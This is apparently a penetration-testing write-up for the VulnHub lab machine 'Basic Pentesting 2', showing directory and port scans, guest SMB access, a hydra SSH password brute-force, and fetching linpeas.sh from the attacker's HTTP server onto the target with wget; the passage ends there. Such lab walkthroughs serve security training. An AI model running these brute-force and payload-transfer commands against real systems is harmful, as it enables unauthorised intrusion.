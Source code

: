 # Basic Pentesting 2

- Attacking machine : Linux kali 5.9.15-1kali1 (2020-12-18) on IP address `10.10.10.4`
- Target machine : [Basic Pentesting 2](https://www.vulnhub.com/entry/basic-pentesting-2,241/) by Josiah Pierce on IP address `10.10.10.13`

## Vulnerability analysis

### Directory scan with `gobuster`

```sh
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.13
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2021/01/14 15:57:19 Starting gobuster
===============================================================
/development (Status: 301)
/server-status (Status: 403)
===============================================================
2021/01/14 15:59:13 Finished
===============================================================
```

#### /development

This directory contains two files :

##### dev.txt

```
2018-04-23: I've been messing with that struts stuff, and it's pretty cool! I think it might be neat
to host that on this server too. Haven't made any real web apps yet, but I have tried that example
you get to show off how it works (and it's the REST version of the example!). Oh, and right now I'm 
using version 2.5.12, because other versions were giving me trouble. -K

2018-04-22: SMB has been configured. -K

2018-04-21: I got Apache set up. Will put in our content later. -J"
```

Maybe obsolete versions of **SMB**, **Apache** and **strusts** are being used.

##### j.txt

```
For J:

I've been auditing the contents of /etc/shadow to make sure we don't have any weak credentials,
and I was able to crack your hash really easily. You know our password policy, so please follow
it? Change that password ASAP.

-K
```

Passwords may be cracked with dictionary-based attacks.

### Port scan with `nmap` 

`nmap -T4 -A -p22,80,139,445,8009,8080 10.10.10.13`

```
Starting Nmap,7.91 ( https://nmap.org ) at 2021-01-14 16:06 EST
Nmap scan re,port for 10.10.10.13
Host is up (0.0014s latency).
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)   
| ssh-hostkey:                                                                           
|   2048 db:45:cb:be:4a:8b:71:f8:e9:31:42:ae:ff:f8:45:e4 (RSA)
|   256 09:b9:b9:1c:e0:bf:0e:1c:6f:7f:fe:8e:5f:20:1b:ce (ECDSA)
|_  256 a5:68:2b:22:5f:98:4a:62:21:3d:a2:e2:c5:a9:f7:c2 (ED25519)
80/tcp   open  http        Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
8009/tcp open  ajp13       Apache Jserv (Protocol v1.3)
| ajp-methods: 
|_  Supported methods: GET HEAD POST OPTIONS
8080/tcp open  http        Apache Tomcat 9.0.7
|_http-favicon: Apache Tomcat
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Apache Tomcat/9.0.7
Service Info: Host: BASIC2; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 1h39m57s, deviation: 2h53m12s, median: -2s
|_nbstat: NetBIOS name: BASIC2, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: basic2
|   NetBIOS computer name: BASIC2\x00
|   Domain name: \x00
|   FQDN: basic2
|_  System time: 2021-01-14T16:07:09-05:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-01-14T21:07:09
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 26.17 seconds
```

## Exploitation

### Samba

We can log into the service with a file explorer using the login ```guest``` and an empty password.

![smb](smb.png)

We get the following ```staff.txt``` file :

```
Announcement to staff:

PLEASE do not upload non-work-related items to this share. I know it's all in fun, but this is how mistakes happen. (This means you too, Jan!)

-Kay
```

We now know that the full name of the previous "J" and "K" are Jan and Kay.

### SSH brute-forcing with `hydra`

Now that we have the full usernames, we can try to crack the ssh password of Jan, as we know it is weak.

`hydra -l jan -P /usr/share/wordlists/rockyou.txt ssh://10.10.10.13` 

7 minutes later, we get it :

![hydra](hydra.png)

## Privilege Escalation

### Importing `linpeas.sh` to the target server

Once logged through ssh, we want to transfer the `linpeas.sh` file from our attacking machine to the target server.

First, we set up a simple HTTP server on our attacking machine by the following command in a directory containing `linpeas.sh` :

`sudo python3 -m http.server -b 10.10.10.4 80`

Then, from our target, we enter `wget http://10.10.10.4/linpeas.sh` after moving to the directory `/tmp`.